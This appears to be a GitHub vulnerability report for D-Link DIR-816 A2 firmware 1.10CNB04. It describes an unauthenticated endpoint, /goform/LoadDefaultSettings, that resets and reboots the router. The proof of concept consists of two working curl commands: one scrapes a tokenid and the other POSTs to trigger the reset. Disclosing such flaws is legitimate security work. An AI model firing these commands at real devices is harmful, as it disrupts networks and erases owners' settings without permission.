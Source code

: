 # D-link DIR-816 A2_v1.10CNB04.img reset router without authentication

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/LoadDefaultSettings/img/vuln1.png)

Vulnerability occurs in /goform/LoadDefaultSettings，system("reboot"); will be executed anyway

## Poc

The first thing you need to do is to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```
curl -i -X POST http://192.168.0.1/goform/LoadDefaultSettings -d tokenid=xxxx
```

Then you can see that the router restarts
